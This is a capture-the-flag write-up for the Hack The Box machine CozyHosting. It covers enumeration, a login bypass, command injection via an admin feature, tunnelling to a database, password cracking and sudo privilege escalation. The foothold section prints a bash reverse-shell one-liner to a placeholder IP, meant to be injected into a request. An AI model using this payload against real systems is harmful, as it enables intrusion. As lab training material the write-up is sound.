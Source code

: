 ```yaml
---
layout: post
title: "HTB - CozyHosting Writeup"
categories: writeup
---
```


# 1. Initial enumeration
This writeup is meant to give an overview of the challenge's solution without spoiling too much of the key details so you can still have fun while following it !

First and foremost, as usual for any challenge we can run a simple port scan using nmap:
![](CozyHosting/Screenshots/Selection_063.png)

From this we can already see that the target hosts an HTTP server as well as an SSH server, which probably means that our entry point will probably be found in our browser visiting the site related to this IP; and the SSH server might be useful later once we find a login for it.

Visiting the ip from our browser redirects us to a website (dont forget to add this host in your /etc/hosts file):
![](CozyHosting/Screenshots/Selection_064.png)

We can quickly see that most links are pointing at the main page, except for the login page:
![](CozyHosting/Screenshots/Selection_065.png)

However after testing this page for SQL injections (manually or using a tool like sqlmap), this page doesn't seem vulnerable. We can thus continue our enumeration with some dir busting using gobuster:
![](CozyHosting/Screenshots/Selection_066.png)

This gives us a list of pages to visit, one of which seems to hold valuable information:
![](CozyHosting/Screenshots/Selection_046.png)

This can be used to bypass the login and access to the admin panel:
![](CozyHosting/Screenshots/Selection_045.png)

# 2. Foothold
We gained a first access on the site, we now need a way to execute arbitrary commands on the host.
On the adnmin page we can a function to patch hosts:
![](CozyHosting/Screenshots/Selection_067.png)

We can put arbitrary values in both field and then intercept the request with Burp to tinker with it in Repeater. The idea is to find some inputs that would lead to a reverse shell. A payload like this one:
```bash
bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1
```
should be transformed in a way that will be executed by the request on the server. Using brackets, pipe and a proper encoding you should be able to get a reverse shell from this request!
![](CozyHosting/Screenshots/Selection_050.png)

However, at this point we are yet to access a user account, we can only see a home for a user named 'josh'.
A jar file is also present in /app, this file should be downloaded on our machine and extracted to inspect its content and find useful information.

![](CozyHosting/Screenshots/Selection_051.png)

The file application.properties contains credentials for a postegres database so we now need a way to access it as it might be our avenue to compromise a user account.

# 3. Gaining access
We can't access the database directly from our machine, however we could by setting up a tunnel from the client to our machine. This can be done using a tool such as Chisel. The tool must be downloaded and deployed on both sides:

![](CozyHosting/Screenshots/Selection_072.png)![](CozyHosting/Screenshots/Selection_073.png) 

We can then access the database from our machine:
![](CozyHosting/Screenshots/Selection_071.png)

the user table contains two users with a password hash for each of them. Using John the ripper or Hashcat we can easily crack the admin password which is in the rockyou list.
![](CozyHosting/Screenshots/Selection_059.png)

We can then use this password as well as the username retrieved earlier to connect to our target using SSH. This gives us access to our user flag !

# 4. Privilege escalation
Privilege escalation on this machine relies on a very common method, often found in easy challenges. Using 'sudo -l' you should have enough information to find which command can be exploited to get root access and open the flag in the /root directory ! (This site can help you find what you are looking for: https://gtfobins.github.io !)

Congratulations !
